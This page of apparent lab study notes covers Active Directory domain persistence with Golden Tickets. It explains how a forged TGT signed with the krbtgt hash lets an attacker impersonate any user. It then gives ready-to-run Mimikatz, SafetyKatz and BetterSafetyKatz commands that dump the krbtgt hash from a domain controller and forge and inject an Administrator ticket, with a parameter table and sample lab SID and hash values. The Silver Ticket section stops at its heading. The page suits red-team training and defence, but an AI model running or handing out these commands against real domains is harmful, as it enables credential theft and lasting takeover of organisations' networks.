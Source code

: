 # Domain Persistence - Golden / Silver tickets

- [Domain Persistence - Golden / Silver tickets](#domain-persistence---golden--silver-tickets)
  - [AD Domain Dominance](#ad-domain-dominance)
  - [Golden Ticket](#golden-ticket)
  - [Leverage Golden Ticket](#leverage-golden-ticket)
  - [Silver Ticket](#silver-ticket)

---

## AD Domain Dominance

There is much more to Active Directory than "just" the Domain Admin. We must have multiple ways of persisting with high privileges in AD. That is, we must have the ability to have on-demand Domain Admin. Let's discuss Domain level persistence.

<br/>

## Golden Ticket

![picture 42](images/2c50434a29a022e1310695f228809b2d9769b549f0a484b31b30a054d518f2f2.png)  

From the above, it assumes that:
- All TGTs signed by `krbtgt` hash are valid

<br/>

A **golden ticket** is signed and encrypted by the hash of krbtgt account **which makes it a valid TGT ticket**. 

Since user account validation is not done by Domain Controller (KDC service) until TGT is older than **20 minutes**, we can use even deleted/revoked/non-existent accounts.

The `krbtgt` user hash could be used to impersonate any user with any privileges from even a non-domain machine. Single password change has no effect on this attack as password history is maintained for the account.

<br/>

## Leverage Golden Ticket

Execute mimikatz on DC to get krbtgt hash:

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

or

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
```

To impersonate, on a machine which can reach the DC over network:

```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /krbtgt:b0975ae49f441adc6b024ad238935af5 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

<br/>

Alternatively, we can use `SafetyKatz`:

```
C:\Users\Public\SafetyKatz.exe "lsadump::lsa /patch" "exit"
```

or

```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```

On a machine which can reach the DC over network (Need elevation):

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /krbtgt:b0975ae49f441adc6b024ad238935af5 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

<br/>

|Mimikatz Parameters | |
|--|--|
|`kerberos::golden` | Name of the module |
|`/User:Administrator` | Username for which the TGT is generated |
|`/domain:us.techcorp.local` | Domain FQDN |
|`/sid:S-1-5-21-210670787-2521448726-163245708` | SID of the domain |
|`/krbtgt:b0975ae49f441adc6b024ad238935af5` | NTLM (RC4) hash of krbtgt. Alternatively you can use `/aes128` or `/aes256` for AES keys. |
|`/id:500 /groups:512` | Opertional User RID (default `500`) and Group (default `513` `512` `520` `518` `519`). |
|`/ptt` | Injects the ticket in current PowerShell process - no need to save the ticket on disk. |
|`/ticket` | Saves the ticket to a file for later use |
|`/startoffset:0` | Optional when the ticket is available (default 0 - right now) in minutes. Use negative for a ticket available from past and a larger number for future. |
|`/endin:600` | Optional ticket lifetime (default is 10 years) in minutes. The default AD setting is 10 hours = 600 minutes. |
|`/renewmax:10080` | Optional ticket lifetime with renewal (default is 10 years) in minutes. The default AD setting is 7 days = 100800 |

<br/>

---

## Silver Ticket



